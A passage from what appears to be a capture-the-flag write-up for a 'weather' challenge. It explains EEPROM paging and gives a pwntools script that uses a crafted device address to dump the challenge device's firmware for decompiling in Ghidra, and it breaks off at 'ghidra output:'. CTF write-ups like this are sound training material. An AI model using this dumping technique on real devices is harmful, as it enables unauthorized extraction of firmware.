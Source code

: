 The reason the returned data changed when a `1` was written into device 33 was because it was selecting a different page to read from, and 64 bytes of data followed by 64 bytes of `0` were always returned because the eeprom only allowed reading up to 64 bytes. To make sure that this was really the eeprom I dumped as much data from the eeprom as possible and attempted to decompile it using ghidra.
```python
from pwn import *
io = remote("weather.2022.ctfcompetition.com", 1337)
print(io.recvline())
print(io.recvline())

addr = b"111137"
data = []
i = 0
try:
    while True:
        io.sendline(b'w ' + addr + b' 1 ' + str(i).encode())
        io.recvline()
        io.sendline(b'r ' + addr + b' 64')
        io.recvline()
        out = []
        for _ in range(4):
            out.append(io.recvline())
        data.append(out)
        io.recvline()
        i += 1
finally:
    data.pop()
    open("firmware.bin", "ab").write(b''.join([b''.join([b''.join([p8(int(b)) for b in line.strip().split(b' ')]) for line in block]) for block in data]))
    print("last: %d", i)
```
ghidra output:
